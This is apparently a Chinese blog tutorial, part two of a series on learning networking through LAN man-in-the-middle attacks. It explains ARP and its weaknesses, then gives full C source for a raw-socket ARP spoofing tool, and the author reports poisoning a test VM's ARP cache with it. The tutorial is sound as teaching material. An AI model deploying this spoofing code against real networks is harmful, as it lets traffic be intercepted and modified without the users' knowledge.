

# 通过局域网中间人攻击学网络 
## 第二篇 ARP欺骗
### 原理
我们要进行中间人攻击，就要将自己的主机插入到被攻击主机与被攻击主机要访问的主机之间，拦截他们的流量，到自己的主机然后转发，如下图所示：
 

只需要将被攻击者的流量转发到我们的机器上我们对其代理，我们就可以对其修改了，那么现在又有新问题了，如何去代理被攻击者的流量呢？因为是我们
要攻击对方的，所以不太可能让被攻击者主动设置将流量转发到我们这里代理（当然，你可以在目标主机植入木马等手段实现，这个不在我们这个文章讨论
范畴内），那如何让对方神不知鬼不觉的把流量代理到我们这里来呢？这时，我们前一章的内容就用到了；

首先，我们回顾下上一篇文章讲的一个网络数据包的旅途：


可以看到，数据最终是链路层给发出去了，链路层怎么知道数据发到哪儿呢，IP地址吗？并不是，链路层是不感知IP地址信息的，而是根据链路层地
址`mac地址`来确定的，每个网卡的`mac地址`在出厂的时候就已经确定了，每个网卡的`mac地址`都是全球唯一的，链路层只需要知道目的地的
`mac地址就行`，这是问题就来了，发送端一般只知道接收方的ip地址，但是链路层发送数据必须要求有接收方的mac地址，那发送端主机是怎么知道目
标主机的mac的呢？答案就是通过ARP协议来获取的，如下图所示：


如果发送端要给ip1发送数据，那么发送端会先广播询问ip1地址的mac地址是多少，这时同一个网络下ip1、ip2、ip3都接收到了该询问，这时ip2和ip3的
主机发现询问的ip地址不是自己，就不会回应，而ip1发现询问的地址是自己，这时ip1就会回应发送端，告诉发送端自己的mac是mac1，这时发送端就有了
ip1的mac地址，他就会缓存下来方便和ip1进行通信；


整个ARP流程很简单，但是因为他太简单了，以至于其中有很多漏洞：
- 发送端怎么知道回应你的是真实的ip1呢？发送端没办法保证，他只能无条件相信回应他的肯定就是ip1，这时如果ip2接到广播后也回答他，告诉
发送端ip1的mac是mac2，那发送端只能相信，因为他没办法确定回应的人有没有说谎，只能寄希望于响应端是诚实的，事实也是如此，在真实的网络中大多
数主机都是诚实的，所以在正常场景这不会有问题；
- 发送端接到响应后就会更新本地ARP缓存，记录下某个ip对应的mac是多少，但是发送端并不会去校验他是不是有询问过，也就是说ip2可以主动构造一个
响应发给ip4，告诉他ip1的mac是mac2，这样ip4机器本地缓存的ip1的mac就是错误的；

这样，我们就可以利用该漏洞做些事情，我们可以主动发送ARP响应给被攻击主机，把我们自己的主机mac告诉被攻击主机，骗他这是被攻击主机要访问的服
务器的mac，这样当被攻击主机发送网络报文的时候他以为是发给了服务器，实际上却是发给了我们的主机，我们接到报文后可以决定是转发还是拦截，如图
所示：


这样，发送端以为他数据是直接发往了服务器，实际上他的数据是发给了攻击者，攻击者在中间神不知鬼不觉的做了一个代理；

现在我们的问题变为了如何发一个假的ARP响应^_^。

### 实现
上边简单说了ARP欺骗的原理，我们现在需要根据该原理发送一个假的ARP响应来欺骗目标主机，那么具体要怎么实现呢？首先我们要知道ARP协议是工作在
链路层之上而不是网络层，所以我们需要直接在链路层发数据，这个Java是做不到的，Java只能发送应用的数据，这时我们就需要万能的C语言了，C语言
是可以轻松封装发送一个链路层的数据包的，所以这也是为什么文章开头要求读者有一定的C语言基础；

要模拟发送ARP响应，我们首先得知道ARP协议是如何封装的，不然目标主机也识别不了呀~ARP协议的数据封装具体如下：


> 注意，上边的数字是该字段的长度，单位byte；后边出现的0x开头的数字表示16进制数字；

ARP协议的请求报文和响应报文都是上边所示的格式，只不过填充不同，对于ARP响应来说：
- 以太网头：
  - 以太网目的地址：数据接收方地址；
  - 以太网源地址：数据发送方地址；
  - 帧类型：填ARP协议对应的帧类型（固定0x0806）；
- ARP请求体：
  - 硬件类型：固定填以太网类型0x01（如果你的网络不是以太网请使用对应的类型，不过目前基本我们使用的都是以太网）；
  - 协议类型：固定填写IPv4对应的0x0800；
  - 硬件地址长度：mac地址长度，单位byte，可以使用固定值6，目前常见的应该都是6；
  - 协议地址长度：因为我们用的是IPv4网络，所以固定使用4即可；
  - op：操作码，0x01表示ARP请求包,0x02表示应答包；
  - 发送端以太网地址：同上边的以太网源地址；
  - 发送端ip地址：发送端的ip地址；
  - 目的以太网地址：同上目的地址；
  - 目的ip地址：目的端的ip地址；

目的主机收到该报文后会将发送端ip地址和发送端以太网地址缓存下来以供后续通讯使用；

  
这样我们就可以根据上边的信息构造我们的虚假ARP响应了，其中目的地址、目的ip地址填写我们要攻击的主机的信息，而发送端地址和发送端ip地址我们
就要特殊点儿了，正常情况我们是要填充我们自己的主机ip地址和mac地址，但是因为我们是要进行攻击，告诉被攻击端我们拥有服务器的ip，所以这里的
发送端ip地址要填写被攻击者要访问的服务器的ip地址，而发送端的以太网地址我们要填写我们自己（攻击者）的mac地址，这样就能达到ARP欺骗的目的
了，具体代码如下：

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <net/ethernet.h>
#include <netpacket/packet.h>
#include <string.h>
#include <net/if.h>

#define AR_TYPE         0x0806 // ARP帧类型
#define ETHER_TYPE      0x01 // 以太网类型
#define PROTOCOL        0x0800 // 上层协议类型，IP协议
#define OP_REQUEST      0x01 // ARP请求包操作码
#define OP_RESPONSE     0x02 // ARP响应包操作码
#define IP_ADD_LEN      4 // ip地址长度
#define BROADCAST_MAC   { 0xff,0xff,0xff,0xff,0xff,0xff } // 广播mac地址

// 默认广播mac地址
const char broadcast_mac[] =  BROADCAST_MAC;

// arp请求以太网数据
struct arppacket
{
        unsigned char dest_mac[ETH_ALEN];//接收方MAC
        unsigned char src_mac[ETH_ALEN];//发送方MAC
        unsigned short type;         //0x0806是ARP帧的类型值
        unsigned short ar_hrd;//硬件类型 - 以太网类型值0x1
        unsigned short ar_pro;//上层协议类型 - IP协议(0x0800)
        unsigned char  ar_hln;//MAC地址长度
        unsigned char  ar_pln;//IP地址长度
        unsigned short ar_op;//操作码 - 0x1表示ARP请求包,0x2表示应答包
        unsigned char  ar_sha[ETH_ALEN];//发送方mac
        unsigned char ar_sip[IP_ADD_LEN];//发送方ip
        unsigned char ar_tha[ETH_ALEN];//接收方mac
        unsigned char ar_tip[IP_ADD_LEN];//接收方ip
} __attribute__ ((__packed__));

/**
 * @brief 发送指定arp请求，当接收方mac为空或者为{ 0xff,0xff,0xff,0xff,0xff,0xff }时将会认为是发送arp查询请求
 * @param socket_fd create_arp_socket打开的socket
 * @param src_mac 发送方mac，例如{ 0xff,0xff,0xff,0xff,0xff,0xff }，必须是长度为6的数组
 * @param src_ip 发送方ip，例如 "192.168.1.1"
 * @param dest_mac 接收方mac，例如{ 0xff,0xff,0xff,0xff,0xff,0xff }，必须是长度为6的数组，可以传null或者{ 0xff,0xff,0xff,0xff,0xff,0xff }，此时认为是发送arp查询请求；
 * @param dest_ip 接收方ip，例如 "192.168.1.1"
 * @return 返回小于0表示失败
 */
int send_arp(int socket_fd, char src_mac[], char src_ip[], char dest_mac[], char dest_ip[]) {
    if(socket_fd < 0){
        return -1;
    }

    // 定义发送方、接收方地址
    struct in_addr s,r;
    // 接收方地址
    struct sockaddr_ll sl;

    // 构建应答包
    struct arppacket arp={
                .dest_mac = BROADCAST_MAC,
                .src_mac = {0},
                .type = htons(AR_TYPE),
                .ar_hrd = htons(ETHER_TYPE),
                .ar_pro = htons(PROTOCOL),
                .ar_hln = ETH_ALEN,
                .ar_pln = IP_ADD_LEN,
                .ar_op = htons(OP_REQUEST),
                .ar_sha = {0},
                .ar_sip = {0},
                .ar_tha = BROADCAST_MAC,
                .ar_tip = {0}
    };

    // 发送方mac赋值
    memcpy(&arp.src_mac, src_mac, ETH_ALEN);
    memcpy(&arp.ar_sha, src_mac, ETH_ALEN);

    // 如果指定了接收方mac，那么使用指定的mac
    if (dest_mac) {
        memcpy(&arp.src_mac, dest_mac, ETH_ALEN);
        memcpy(&arp.ar_tha, dest_mac, ETH_ALEN);
    }

    // 设置发送方ip
    inet_aton(src_ip, &s);
    memcpy(&arp.ar_sip, &s, sizeof(s));

    // 设置接收方ip
    inet_aton(dest_ip, &r);
    memcpy(&arp.ar_tip, &r, sizeof(r));

    // 接收方地址内存初始化
    memset(&sl, 0, sizeof(sl));
    // 接收方地址信息
    sl.sll_family = AF_PACKET;
    sl.sll_halen = ETHER_ADDR_LEN;
    sl.sll_protocol = htons(ETH_P_ARP);
    sl.sll_ifindex = IFF_BROADCAST;

    // 如果用户指定了接收方的mac地址，那么使用用户指定的mac地址，如果用户未指定，那么使用默认的地址
    if (dest_mac) {
        memcpy(sl.sll_addr, dest_mac, ETHER_ADDR_LEN);
    } else {
        memcpy(sl.sll_addr, broadcast_mac, ETHER_ADDR_LEN);
    }

    if(sendto(socket_fd, &arp, sizeof(arp), 0, (struct sockaddr*)&sl, sizeof(sl)) <= 0) {
        return -2;
    } else {
        return 0;
    }
}

/**
 * @brief 接受一个发往本地的arp报文
 * @param socket_fd create_arp_socket打开的socket
 * @param msg arp报文，用于接受arp数据，当返回大于0的时候该地址会被填充数据
 * @return 返回小于等于0表示失败
 */
int receive_arp(int socket_fd, struct arppacket *msg) {
    struct sockaddr_ll sl;
    int ret;
    // 地址长度
    socklen_t addr_length = sizeof(struct sockaddr_ll);


    // 地址初始化
    sl.sll_family = AF_PACKET;
    sl.sll_halen = ETHER_ADDR_LEN;
    sl.sll_protocol = htons(ETH_P_ARP);
    sl.sll_ifindex = IFF_BROADCAST;

    memset(msg, 0, sizeof(struct arppacket));
    // 接收数据
    ret = recvfrom(socket_fd, msg, sizeof(struct arppacket), 0, (struct sockaddr *)&sl, &addr_length);

    return ret;
}

/**
 * @brief 打开arp发送socket
 * @return socket，小于0表示失败
 */
int create_arp_socket() {
    return socket(AF_PACKET,SOCK_RAW,htons(ETH_P_ARP));
}

/**
 * @brief 关闭create_arp_socket打开的socket
 * @param socket_fd create_arp_socket打开的socket
 */
void close_arp_socket(int socket_fd) {
    close(socket_fd);
}


int main(){
    unsigned char src_mac[] = { 0x08,0x00,0x27,0xf6,0xf5,0x96 };
    unsigned char dest_mac[] = { 0x08,0x00,0x27,0xfc,0x07,0x9c };
    char src_ip[] = "192.168.199.1";
    char dest_ip[] = "192.168.199.110";

    int fd = create_arp_socket();

    if(fd < 0) {
        printf("socket打开失败\n");
        return -1;
    }
    // 发送arp询问
    while(1){
        if(send_arp(fd, src_mac, src_ip, dest_mac, dest_ip) < 0){
            printf("send error\n");
        } else {
            printf("send success\n");
        }
        sleep(1);
    }

    close_arp_socket(fd);

    return 0;
}

```
注意，其中`192.168.199.1`是我局域网的路由器ip，而`0x08,0x00,0x27,0xf6,0xf5,0x96`这个mac地址是我的虚拟机`centos7-1`的mac地址，
`192.168.199.110`则是我要攻击的主机（也是虚拟机，叫`centos7-2`）的ip地址，`0x08,0x00,0x27,0xfc,0x07,0x9c`是我要攻击的主机的mac地
址；首先我们在我们实施攻击的主机`centos7-1`上编译该段程序；然后查看被攻击主机`centos7-2`的本地ARP缓存，缓存情况如下：


现在我们在`centos7-1`运行攻击程序，重新查看`centos7-2`的ARP缓存：


可以看到，`centos7-2`主机的ARP缓存已经记录了错误路由器的mac地址，现在`centos7-2`发往路由器的数据包都将实际发送到我们的攻击主机
`centos7-1`上；

至此，我们已经完成了ARP欺骗，成功将目标主机的流量神不知鬼不觉的转发到了我们的主机上，下一步就是对该流量进行过滤/拦截/修改等操作；

PS：本文涉及的程序也可以在我的git仓库中找到：https://github.com/JoeKerouac/clib